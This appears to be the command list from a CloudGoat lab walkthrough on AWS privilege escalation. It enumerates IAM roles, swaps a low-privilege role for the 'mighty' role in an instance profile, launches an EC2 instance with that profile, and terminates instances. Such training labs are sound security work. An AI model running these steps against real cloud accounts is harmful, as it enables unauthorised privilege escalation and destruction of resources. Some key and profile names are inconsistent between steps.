 `aws configure --profile Scenario3_user`

`aws ec2 describe-instances --profile Scenario3_user`

`aws iam list-instance-profiles --profile Scenario3_user`

`aws iam list-roles --profile Scenario3_user`

`aws iam remove-role-from-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-meek-role-<cloudgoat_id> --profile Scenario3_user`

`aws iam add-role-to-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-mighty-role-<cloudgoat_id> --profile Scenario3_user`

`aws ec2 create-key-pair --key-name pwned --profile Scenario3_user`

`aws ec2 describe-subnets --profile Scenario3_user`

`aws ec2 describe-security-groups --profile Scenario3_user`

`aws ec2 run-instances --image-id ami-0718a1ae90971ce4d --iam-instance-profile Arn=<instanceProfileArn> --key-name scenario3_user --profile scenario3_user --subnet-id <subnetId> --security-group-ids <securityGroupId>`

`sudo apt-get update`

`sudo apt-get install awscli`

`aws ec2 describe-instances --region eu-central-1`

`aws ec2 terminate-instances --instance-ids <instanceId> --region eu-central-1`
